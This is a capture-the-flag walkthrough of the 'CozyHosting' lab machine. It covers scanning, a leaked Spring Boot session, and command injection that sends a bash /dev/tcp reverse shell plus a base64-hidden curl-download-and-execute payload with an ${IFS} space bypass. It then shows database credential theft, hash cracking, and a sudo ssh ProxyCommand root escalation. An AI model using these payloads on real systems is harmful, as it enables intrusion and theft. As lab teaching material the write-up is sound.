









# CozyHosting - Walkthrough


## TARGET : 10.10.11.230
## ATTACKER : OPENVPN IP

## Scanning

`nmap -A -p- -T4 10.10.11.230`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website


There is a login page



`gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
```

There is an interesting directory `/error` which gives us a `500` error.



After some research, I found that this is a Spring Boot application. I found [endpoints](https://docs.spring.io/spring-boot/docs/current/reference/html/actuator.html) which can be used to get information about the application and the users.

 Most applications choose exposure over HTTP, where the ID of the endpoint and a prefix of `/actuator` is mapped to a URL

`http://cozyhosting.htb/actuator`

```
{"_links":{"self":{"href":"http://localhost:8080/actuator","templated":false},"sessions":{"href":"http://localhost:8080/actuator/sessions","templated":false},"beans":{"href":"http://localhost:8080/actuator/beans","templated":false},"health-path":{"href":"http://localhost:8080/actuator/health/{*path}","templated":true},"health":{"href":"http://localhost:8080/actuator/health","templated":false},"env":{"href":"http://localhost:8080/actuator/env","templated":false},"env-toMatch":{"href":"http://localhost:8080/actuator/env/{toMatch}","templated":true},"mappings":{"href":"http://localhost:8080/actuator/mappings","templated":false}}}
```

`http://cozyhosting.htb/actuator/sessions`

```
{"72003A03B6764227BC3CCF7CACBC2398":"kanderson","A1D1780B7829A82365EB82BCFE94581A":"kanderson","50D5D7DCF90692DD82DCE08013AF225E":"UNAUTHORIZED","AD0227D38C05591F370F926979B5EA13":"UNAUTHORIZED"}
```

We found a username `kanderson` with a session ID `CDE3F3751638A269DC3ECF528C393871`. Let's use this session ID to access the application.



## Reverse Shell



Let's see if we can find any vulnerability in `CozyScanner`



We can see that there is a `POST` request to `executessh` endpoint. Let's try to exploit this.

```
bash -i >& /dev/tcp/<10.10.14.174>/<9001> 0>&1
```



We need to encode this payload to `base64` and send it in the `POST` request because request cannot contains whitespaces.


[Bypass without space](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md) & [Hacktricks - Bypass Restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)


<h4>New payload:</h4>

<h5>First we need to encode into base64 our reverse shell</h5>

`echo "curl -fsSL http://10.10.14.174:13339/termite/10.10.14.174:13337 -o /tmp/.XrVxOLc2 && chmod +x /tmp/.XrVxOLc2 && /tmp/.XrVxOLc2" | base64 -w 0
`

```
Y3VybCAtZnNTTCBodHRwOi8vMTAuMTAuMTQuMTc0OjEzMzM5L3Rlcm1pdGUvMTAuMTAuMTQuMTc0OjEzMzM3IC1vIC90bXAvLlhyVnhPTGMyICYmIGNobW9kICt4IC90bXAvLlhyVnhPTGMyICYmIC90bXAvLlhyVnhPTGMyCg==
```

Then we use the `${IFS}` method to bypass the space restriction

```
;echo${IFS}"Y3VybCAtZnNTTCBodHRwOi8vMTAuMTAuMTQuMTc0OjEzMzM5L3Rlcm1pdGUvMTAuMTAuMTQuMTc0OjEzMzM3IC1vIC90bXAvLlhyVnhPTGMyICYmIGNobW9kICt4IC90bXAvLlhyVnhPTGMyICYmIC90bXAvLlhyVnhPTGMyCg=="|base64${IFS}-d|bash;
```



```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [ATTACKER] from (UNKNOWN) [10.10.11.230] 47684
app@cozyhosting:/app$ whoami
whoami
app
app@cozyhosting:/app$ 
```

## Privilege Escalation

```
app@cozyhosting:/app$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 May 18  2023 .
drwxr-xr-x 19 root root 4096 Aug 14 14:11 ..
drwxr-x---  4 josh josh 4096 Dec  9 17:56 josh
```

Only one user `josh` is present in the `/home` directory. Let's explore other directories.

There is a unusual file in root, `/app` directory

```
app@cozyhosting:/$ cd /app/
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Let's download this file to our machine and decompile it using [JD-GUI](https://java-decompiler.github.io/)

<h5>Target:</h5>

```
app@cozyhosting:/app$ which python3
/usr/bin/python3
app@cozyhosting:/app$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

<h5>Attacker</h5>

```
wget 10.10.11.230:8000/cloudhosting-0.0.1.jar
```

`jg-gui cloudhosting-0.0.1.jar`



We can see that there are credentials for the database `postgres`

```
spring.jpa.database=POSTGRESQL
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Let's try to login to the database using these credentials.

```
app@cozyhosting:/app$ psql -h 127.0.0.1 -p 5432 -d cozyhosting -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
cozyhosting=#
```

We are logged in as `postgres` user. Let's look for credentials in the database.

```
cozyhosting=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

cozyhosting=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# \d users
                        Table "public.users"
  Column  |          Type          | Collation | Nullable | Default 
----------+------------------------+-----------+----------+---------
 name     | character varying(50)  |           | not null | 
 password | character varying(100) |           | not null | 
 role     | role                   |           |          | 
Indexes:
    "users_pkey" PRIMARY KEY, btree (name)
Referenced by:
    TABLE "hosts" CONSTRAINT "hosts_username_fkey" FOREIGN KEY (username) REFERENCES users(name)

cozyhosting=# select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

cozyhosting=# 
```

After switching to the `cozyhosting` database, we observed two users, `kanderson` and `admin`. We are aware that neither `kanderson` nor `admin` are present in the `ssh` users. However, we have information that `kanderson` is an admin in the `CozyScanner` application. Therefore, we can deduce that `admin` is the user `josh` on the machine, as he is the only user present on the system.

<h5>admin hash</h5>

```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`



We found the password `manchesterunited`.

```
app@cozyhosting:/app$ su josh
Password: 
josh@cozyhosting:/app$ whoami
josh
josh@cozyhosting:/app$ 
```

We are logged in as `josh` user. Let's get the user flag.

```
josh@cozyhosting:/app$ cd
josh@cozyhosting:~$ ls -la
total 40
drwxr-x--- 4 josh josh 4096 Dec  9 17:56 .
drwxr-xr-x 3 root root 4096 May 18  2023 ..
lrwxrwxrwx 1 root root    9 May 11  2023 .bash_history -> /dev/null
-rw-r--r-- 1 josh josh  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 josh josh 3771 Jan  6  2022 .bashrc
drwx------ 2 josh josh 4096 May 18  2023 .cache
-rw------- 1 josh josh   20 May 18  2023 .lesshst
-rw-r--r-- 1 josh josh  807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 May 21  2023 .psql_history -> /dev/null
drwx------ 2 josh josh 4096 Dec  9 17:57 .ssh
-rw-r----- 1 root josh   33 Dec  8 19:10 user.txt
-rw-r--r-- 1 josh josh   39 Aug  8 10:19 .vimrc
josh@cozyhosting:~$ cat user.txt 
331a47be32f2481e28c9f174b85aea15
```

Let's find a way to escalate our privileges to root.

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
josh@cozyhosting:~$ 
```

There is a simple [exploit](https://gtfobins.github.io/gtfobins/ssh/#sudo) of `ssh` which can be used to escalate our privileges to root.

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cat /root/root.txt
15c991fe8d6834aa894f6ab6b8e1617f
```